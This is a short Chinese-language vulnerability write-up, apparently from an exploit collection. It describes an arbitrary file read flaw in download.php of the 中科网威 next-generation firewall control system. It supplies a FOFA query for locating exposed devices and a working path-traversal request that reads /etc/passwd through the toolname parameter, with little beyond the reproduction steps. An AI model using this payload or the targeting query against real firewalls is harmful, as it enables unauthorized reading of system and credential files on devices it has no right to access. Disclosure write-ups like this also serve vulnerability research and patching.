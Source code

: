 # 中科网威 下一代防火墙控制系统 download.php 任意文件读取漏洞

## 漏洞描述

中科网威 下一代防火墙控制系统 download.php 任意文件读取漏洞, 攻击者通过漏洞可以读取服务器上的文件

## 漏洞影响

```
中科网威 下一代防火墙控制系统
```

## FOFA

```
body="Get_Verify_Info(hex_md5(user_string)."
```

## 漏洞复现

登录页面如下

![](./images/202202162251851.png)

漏洞存在于 download.php

![](./images/202202162251009.png)



任意点击后抓包，更改 **toolname** 参数

```plain
/download.php?&class=vpn&toolname=../../../../../../../../etc/passwd
```

![](./images/202202162251674.png)
